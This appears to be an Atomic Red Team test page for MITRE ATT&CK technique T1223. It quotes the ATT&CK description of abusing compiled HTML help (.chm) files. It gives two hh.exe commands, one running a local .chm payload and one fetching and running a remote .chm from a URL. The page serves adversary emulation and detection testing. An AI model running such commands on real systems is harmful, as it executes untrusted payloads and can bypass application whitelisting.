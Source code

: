 ```yaml
---
published: true
title: T1223 - Compiled HTML File
---
```

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1223)
<blockquote>Compiled HTML files (.chm) are commonly distributed as part of the Microsoft HTML Help system. CHM files are compressed compilations of various content such as HTML documents, images, and scripting/web related programming languages such VBA, JScript, Java, and ActiveX. (Citation: Microsoft HTML Help May 2018) CHM content is displayed using underlying components of the Internet Explorer browser (Citation: Microsoft HTML Help ActiveX) loaded by the HTML Help executable program (hh.exe). (Citation: Microsoft HTML Help Executable Program)
<br/>
Adversaries may abuse this technology to conceal malicious code. A custom CHM file containing embedded payloads could be delivered to a victim then triggered by <a href="https://attack.mitre.org/techniques/T1204">User Execution</a>. CHM execution may also bypass application whitelisting on older and/or unpatched systems that do not account for execution of binaries through hh.exe. (Citation: MsitPros CHM Aug 2017) (Citation: Microsoft CVE-2017-8625 Aug 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Compiled HTML Help Local Payload](#atomic-test-1---compiled-html-help-local-payload)

- [Atomic Test #2 - Compiled HTML Help Remote Payload](#atomic-test-2---compiled-html-help-remote-payload)


<br/>

## Atomic Test #1 - Compiled HTML Help Local Payload
Uses hh.exe to execute a local compiled HTML Help payload.

**Supported Platforms:** Windows


#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| local_chm_file | Local .chm payload | path | C:\atomic-red-team\atomics\T1223\src\T1223.chm|

#### Run it with `command_prompt`!

```
hh.exe #{local_chm_file}
```
<br/>
<br/>

## Atomic Test #2 - Compiled HTML Help Remote Payload
Uses hh.exe to execute a remote compiled HTML Help payload.

**Supported Platforms:** Windows


#### Inputs

| Name | Description | Type | Default Value | 
|:------:|:-------------:|:------:|:---------------:|
| remote_chm_file | Remote .chm payload | url | https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1223/src/T1223.chm|

#### Run it with `command_prompt`!

```
hh.exe #{remote_chm_file}
```
<br/>
